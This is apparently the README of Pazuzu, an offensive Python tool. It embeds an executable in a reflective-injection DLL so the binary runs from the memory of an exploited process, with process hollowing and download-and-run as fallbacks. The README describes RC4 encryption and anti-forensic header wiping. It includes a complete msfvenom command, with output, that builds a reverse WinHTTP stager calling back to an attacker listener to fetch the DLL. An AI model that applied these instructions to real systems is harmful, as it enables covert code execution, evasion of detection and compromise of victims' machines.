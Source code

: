 # Pazuzu
Pazuzu is a Python script that allows you to embed a binary within a precompiled DLL which uses reflective DLL injection.
The goal is that you can run your own Binary directly from memory. This can be useful in various scenarios. 

For example, if you want to exploit a vulnerability and run your own executable instead of a third party reflective DLL. In this case you just have to choose the stager you like (reverse TCP, HTTP, HTTPS, etc.) and set the DLL generated by Pazuzu. Pazuzu  will execute the binary within the address space of the vulnerable process as long as it has the .reloc section.

![Alt text](https://github.com/BorjaMerino/Pazuzu/blob/master/Docs/reloc.png "Reloc")

**Restrictions**
 
* Not all binaries can be run from memory. For example, applications which require .NET CLR for (managed code) won't be run. I will try to implement this in a upcoming version. By now you can download and run .NET application with the -d option which downloads and run it from disk (noisy option).
* If .reloc section is not present the script will use a "process hollowing" approach.
* Support for 32-bit for now.

**How-to**
* The script Pazuzu.py accepts as input the binary you want to run from memory (parameter **-f**). Depending on the properties of the binary Pazuzu will choose one of the 3 DLL currently available. These DLL are:
  1. **reloc­x86.dll**: lets you run the binary inside the address space of the process. This option is the most favorable since the binary generates less "noise" in the system. 
  2. **dforking­x86.dll**: the binary in this case also runs from memory but using "hollowing process". This technique is the same as the one used by the ["execute" command with the -m flag](https://community.rapid7.com/community/metasploit/blog/2012/05/08/eternal-sunshine-of-the-spotless-ram) in Meterpreter. You can force the use of this option with the parameter **-w**.
  3. **download­86.dll**: this is the noisiest option since the binary will be downloaded in disk and run from there.

* Pazuzu also provides some additional features. For example, the **-x** option will encrypt the section containing the binary by using a random key RC4 (which is stored in the TimeStamp DLL). In addition, after running it the PE header of the DLL and the binary section will be overwritten with zeros. I will add more anti-forensic techniques in future versions.

* To generate a stage that can retrieve the Pazuzu DLL run msfvenom p payload windows / dllinject / <stager_you_like>. For instance to retrieve the DLL using the WinHTTP stager msfvenom run as follow:

**Examples**
* To recover the Pazuzu DLL I will use a WinHTTP stager:
```
root@kali:~# msfvenom -p windows/dllinject/reverse_winhttp lhost=192.168.1.44 lport=8080 dll=. -f exe -o Winhttp-stager.exe
No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No Arch selected, selecting Arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 908 bytes
Saved as: Winhttp-stager.exe
```
Let's run Pazuzu.py with the regshot.exe binary (.section present):

![Alt text](https://github.com/BorjaMerino/Pazuzu/blob/master/Docs/ejemplo1.png "Regshot.exe (.reloc present)")

Let's run it now with the verbose option to see more detailed payload information

![Alt text](https://github.com/BorjaMerino/Pazuzu/blob/master/Docs/ejemplo2.png "Verbose output")

The next example will use putty.exe which has no reloc section. I select "c:\windows\write.exe" to be "hollowed out" and I encrypt the binary section with RC4. The hidden option **-m** just run msfvenom with a winhttp dllinject stager.

![Alt text](https://github.com/BorjaMerino/Pazuzu/blob/master/Docs/ejemplo3.png "Putty.exe (no .reloc present)")

 Here the Process Explorer ouput:

![Alt text](https://github.com/BorjaMerino/Pazuzu/blob/master/Docs/ejemplo3-1.png "Putty.exe (Process Explorer)")

